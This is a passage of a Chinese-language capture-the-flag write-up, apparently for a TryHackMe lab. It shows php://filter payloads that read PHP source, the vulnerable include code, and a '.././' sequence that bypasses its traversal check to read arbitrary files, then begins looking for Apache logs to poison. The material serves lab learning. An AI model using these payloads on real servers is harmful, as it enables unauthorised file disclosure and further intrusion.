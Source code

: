 回显：

    Control is an illusion 

此文件是php文件这是执行后的结果

我们需要阅读它的源码，php://filter可以帮助我们

使用php://filter来对目标页面进行base64编码

    ?view=php://filter/read=convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php

将base64解码：

    <?php echo 'Control is an illusion'; ?>

好吧，什么屁用都没有

现在我们已知的php页面就两个，第一个我们已经看了，还剩一个那就是test.php，我们也看一下这个php的源码

    ?view=php://filter/read=convert.base64-encode/resource=/var/www/html/development_testing/test.php

关键代码：

    <?php

            //FLAG: thm{e*********1}

                function containsStr($str, $substr) {
                    return strpos($str, $substr) !== false;
                }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                    include $_GET['view'];
                }else{

            echo 'Sorry, Thats not allowed';
                }
        }
    ?>

这段代码比较简单，一个简单的判断

绕过也很简单，只要使用./隔开../即可：

    .././.././.././../

## LFI 进一步利用

现在我们可以访问任意文件，但是为了进一步利用，我们需要找到我们可控的文件

在这种情况下，日志文件绝对是首选

通过抓包查看响应头，或者使用浏览器的wappalyzer，我们可以得知：

    Server: Apache/2.4.29 (Ubuntu)

二话不说，直接找apache的日志文件：
